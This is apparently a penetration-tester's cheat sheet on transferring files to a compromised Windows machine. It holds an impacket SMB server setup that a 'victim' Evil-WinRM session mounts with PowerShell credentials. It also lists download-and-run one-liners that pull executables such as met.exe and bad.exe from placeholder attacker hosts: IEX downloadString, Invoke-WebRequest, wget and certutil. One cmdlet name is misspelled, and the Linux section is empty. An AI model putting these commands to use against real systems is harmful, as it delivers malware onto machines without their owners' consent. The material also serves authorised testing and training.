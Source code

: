 # Windows

### impacket-smbserver. Useful when transferring through evilwinrm
On attacker machine. 
```
impacket-smbserver <NameOfServer> $(pwd) -smb2support -user <AnyUser-UsedForLater> -password <AnyPassword-UsedForLater>
```
On the victim Evilwinrm box
```
$pass = convertto-securestring <'AnyPassword'> -AsPlainText -force
$cred = New-Object System.Management.Automation.PSCredential(<'AnyUser'>, $pass)

New-PSDrive -Name <UserFromLastStep> -PSProvider Filesystem -Credential $cred -Root \\<Attacker.IP.Address.>\<NameOfServer>
```

### Powershell
```
IEX(New-WebObject Net.WebClient).downloadString('http://<attacker.ip>:<port>/<file-to-download>')

iwr -uri http://attacker.IP/met.exe -Outfile met.exe

powershell wget -Uri http://attacker_IP/name.exe -OutFile C:\destination\directory\name.exe
```

### Certutil
```
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

# Linux
